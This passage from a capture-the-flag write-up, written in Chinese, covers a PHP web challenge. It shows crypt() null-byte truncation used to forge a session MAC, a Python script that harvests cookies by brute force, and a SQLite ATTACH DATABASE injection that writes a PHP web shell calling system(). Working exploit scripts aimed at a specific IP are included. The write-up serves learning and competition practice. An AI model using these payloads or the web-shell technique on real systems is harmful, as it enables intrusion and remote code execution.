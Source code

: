 但是既不知道`secret`也不知道`salt`——于是比赛的时候就卡到了这里，但是实际上这里是可以突破的

注意`crypt()`的`true`参数，它会使输出值是raw binary data，也就是说发生这种现象

```php
$a = "aaaaaaa";
$b = "aaaaaaa\x00aaaaa";
echo crypt($a, '$2a$07$usesomesillystringforsalt$');
echo crypt($b, '$2a$07$usesomesillystringforsalt$');
```

![image-20211220174142440](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211220174142440.png)

没错！是熟悉的配方——00截断，`\x00`之后的内容将被忽略，也就是说对任何`$id`md5之后以`\x00`开头的值进行`crypt()`之后得到的`$mac`是一样的！

现在需要确定这个`$id`值，显然本地和远程的`$secret`值不一样 无法本地直接伪造，我们的方法是大量的GET请求来获得大量的新cookie，观察`|`之后的部分的出现相同的频率，因为上述情况发生的概率是1/256，如果发生了两次 就可以确定是我们要找的`$mac`值

```python
import requests
from tqdm import tqdm

macs = []
for _ in tqdm(range(1000)):
    response = requests.get('http://65.108.176.96:8888/')
    macs.append(response.cookies['session'].split('%7C')[1])
mac_0 = max(macs, key=macs.count)
print(mac_0)
```

![image-20211220182703931](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211220182703931.png)

有了合适的`$mac`之后再考虑如何通过sqli写shell，根据[cheat sheet](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet)整一个payload

```
1=1; ATTACH DATABASE '/var/www/html/data/qazxsw.php' as hackz;CREATE TABLE hackz.pwn (dataz text);INSERT INTO hackz.pwn (dataz) VALUES ('<?php echo system(\"/readflag\"); ?>'); -- xyz
```

看着很骚的写shell方式，之前做题没有见到过（这波学到了），这个payload就放入cookie的`$id`部分即可，带着cookie访问页面post再delete一条内容，再转到/data/qazxsw.php页面就可以看到flag了

```python
import requests
import random
import string
from urllib.parse import quote
remote_0_mac = 'FlDRLIZWMTqtYjAugBkToe66C3Q5PaXnGAyzGL6VpiCmfl%2FQjtvYr2QavlI9lmsrMbQnpPfIMr979D1E4bBa71'

cont = ''
payload = quote("1=1; ATTACH DATABASE '/var/www/html/data/qazxsw.php' as hackz;CREATE TABLE hackz.pwn (dataz text);INSERT INTO hackz.pwn (dataz) VALUES ('<?php echo system(\"/readflag\"); ?>'); -- xyz")
while 'html' not in cont:
    random_id = ''.join(random.choice(string.ascii_letters) for _ in range(10))
    cookies = {
        'session': payload + random_id + '%7C' + remote_0_mac
    }
    response = requests.get('http://65.108.176.96:8888/', cookies=cookies)
    cont = response.text
print(cookies)
```
